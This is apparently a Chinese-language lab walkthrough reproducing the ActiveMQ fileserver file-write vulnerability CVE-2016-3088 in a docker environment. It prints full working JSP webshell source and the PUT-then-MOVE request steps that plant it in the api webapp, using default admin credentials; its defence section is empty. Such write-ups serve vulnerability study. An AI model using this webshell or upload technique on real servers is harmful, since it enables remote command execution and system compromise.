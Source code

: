 # ActiveMQ任意文件写入漏洞 (CVE-2016-3088)

## 漏洞详情

ActiveMQ的web控制台分三个应用，admin、api和fileserver，其中admin是管理员页面，api是接口，fileserver是储存文件的接口；admin和api都需要登录后才能使用，fileserver无需登录。

fileserver是一个RESTful API接口，我们可以通过GET、PUT、DELETE等HTTP请求对其中存储的文件进行读写操作，其设计目的是为了弥补消息队列操作不能传输、存储二进制文件的缺陷，但后来发现：

1. 其使用率并不高
2. 文件操作容易出现漏洞

所以，ActiveMQ在5.12.x~5.13.x版本中，已经默认关闭了fileserver这个应用（你可以在conf/jetty.xml中开启之）；在5.14.0版本以后，彻底删除了fileserver应用。

在测试过程中，可以关注ActiveMQ的版本，避免走弯路。



## 影响版本

**Apache ActiveMQ 5.x ~ 5.14.0**



## 环境搭建

```
cd activemq/CVE-2016-3088
docker-compose up -d
```

环境监听61616端口和8161端口，其中8161为web控制台端口，本漏洞就出现在web控制台中。

访问`http://your-ip:8161/`看到web页面，说明环境已成功运行。



## 漏洞复现

文件写入有几种利用方法：

1. 写入webshell
2. 写入cron或ssh key等文件
3. 写入jar或jetty.xml等库和配置文件

我们都尝试使用一下

### 写入webshell

写入webshell，需要写在admin或api应用中，而这俩应用都需要登录才能访问，所以比较鸡肋。

默认的ActiveMQ账号密码均为`admin`，首先访问下面的地址，查看ActiveMQ的绝对路径：

```
http://your-ip:8161/admin/test/systemProperties.jsp
```

![image-20210415184850259](https://antlersmaskdown.oss-cn-hangzhou.aliyuncs.com/image-20210415184850259.png)

然后上传webshell，这里我们选用jsp小马

这里访问`http://120.79.1.70:8161/fileserver/1.txt` 直接用bp拦截之后把post改成put 在往data后面加上jsp的小马

> 这里我们先将文件写入1.txt中，待会将这个文件移动到ActiveMQ的绝对路径中

```html
<%@ page import="java.util.*,java.io.*"%> <% %> 
<HTML><BODY> <FORM METHOD="GET" NAME="comments" ACTION="">
<INPUT TYPE="text" NAME="comment"> 
<INPUT TYPE="submit" VALUE="Send"> 
</FORM> <pre> 
<%
 if ( request.getParameter( "comment" ) != null )
 {
     out.println( "Command: " + request.getParameter( "comment" ) + "<BR>" );
     Process p        = Runtime.getRuntime().exec( request.getParameter( "comment" ) );
     OutputStream os    = p.getOutputStream();
     InputStream in        = p.getInputStream();
     DataInputStream dis    = new DataInputStream( in );
     String disr        = dis.readLine();
     while ( disr != null )
     {
         out.println( disr ); disr = dis.readLine();
     }
 }
 %>
 </pre> 
 </BODY></HTML>
```

![image-20210415190346660](https://antlersmaskdown.oss-cn-hangzhou.aliyuncs.com/image-20210415190346660.png)

访问一下，上传成功

![image-20210415190258376](https://antlersmaskdown.oss-cn-hangzhou.aliyuncs.com/image-20210415190258376.png)

返回204代表成功，之后再把put改成move 后面再加一行，将文件重命名为shell.jsp

```
Destination:file:///opt/activemq/webapps/api/shell.jsp
```

![image-20210415190147092](images/ActiveMQ%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E5%86%99%E5%85%A5%E6%BC%8F%E6%B4%9E%20(CVE-2016-3088).assets/image-20210415190147092.png)

访问地址，成功解析

```
http://192.168.16.128:8161/api/
```

![image-20210415190523606](https://antlersmaskdown.oss-cn-hangzhou.aliyuncs.com/image-20210415190523606.png)























## 漏洞分析

ActiveMQ中的fileserver服务允许用户通过HTTP中的PUT方法上传文件到指定目录，构造PUT请求上传webshell到fileserver目录，然后通过MOVE方法将其移动到有执行权限的/admin目录中



## 防御与修复

